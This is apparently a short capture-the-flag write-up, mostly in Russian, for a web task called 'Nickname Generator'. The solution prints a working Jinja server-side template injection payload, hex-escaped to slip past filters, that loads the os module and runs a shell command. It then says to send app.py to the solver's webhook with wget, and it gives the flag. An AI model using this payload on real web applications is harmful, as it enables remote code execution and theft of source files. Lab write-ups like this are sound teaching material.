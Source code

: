 # Карл тут RCE если что

## Название
Nickname Generator
## Описание/Легенда
Baba Kapa is going to register a Skype account, but do not really understand how to choose cool and zoomer-styled nickname. We are going to suggest this service as an advice. So, can you look if it works properly?
## Решение
Заюзать подобный пейлоад для Jinja SSTI:
```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[80]["load\x5Fmodule"]("os")["system"]("ls")}}
```
Где на месте числа 80 стоит порядковый номер _frozen_importlib.BuiltinImporter

Затем с помощью wget передать app.py себе на вебхук и расшифровать флаг

**Флаг:** paseca{zap0st1l_cr1ng3_shtr4f_d1ar33y4}